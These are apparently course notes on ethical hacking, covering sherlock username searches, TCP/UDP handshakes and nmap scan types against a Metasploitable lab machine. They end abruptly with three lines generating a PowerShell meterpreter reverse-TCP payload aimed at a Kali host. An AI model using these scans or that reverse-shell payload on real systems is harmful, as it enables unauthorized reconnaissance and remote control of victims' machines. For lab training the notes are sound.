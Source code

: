 - [sherlock](https://github.com/sherlock-project/sherlock) : " Hunt down social media accounts by username across social networks"
cmd = `python sherlock <username>`

# Section 5 : scanning
- focus on tech side of data gathering
- **WARNING** : it's forbiden to scan, so use honeypot or local virtualized vulnerable assets for training purpose
- objectives
1. look for open ports (80:web + 443 for ssl ; 21:ftp ; 22:ssh ; 53:DNS ; 25:smtp)

## TCP & UDP protocols
- TCP = most common on internet (tansfer protocol protocol)
1. (a->b) SYN : ask to establish conn
2. (b->a) SYN/ACK
3. (a->b) ACK : establish conn
TCP garantee packet are received and received in order + resend if fail/corruption/errors

- UDP (user datagram protocol)
no reception garanty, tradeof = much faster than TCP
use for broadcast/live/etc.

## Scans - nmap
cmd : `sudo arp -a` 
arp : access machine arp cache

cmd : `sudo netdiscover` = list connected assets on local network (192.168.<1-254>.0/24)

`nmap <metasploitable ip<>`
[type of scan](https://nmap.org/man/fr/man-port-scanning-techniques.html)

SYN scan :
`nmap -sS <metasploitable ip>`
send SYN request, if response=SYN/ACK then port=open
no connection open at end of scan

SYN full handshake scan :
`nmap -sT <metasploitable ip>`
send SYN request,
if response=SYN/ACK then port=open, then send ACK to establish conn
if response=RST, then port=closed

-sU(Scan UDP)

--scanflags(Scan TCP personnalisé)
-sI <zombie host[:probeport]>[Scan passif -- idlescan](https://nmap.org/book/idlescan.html)

## Get target OS
`nmap -O <metasploitable ip>`
When creating honeypot : change mac address so it doesn't have standard mac address of vm (example 08:00:27:* for VB)


[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate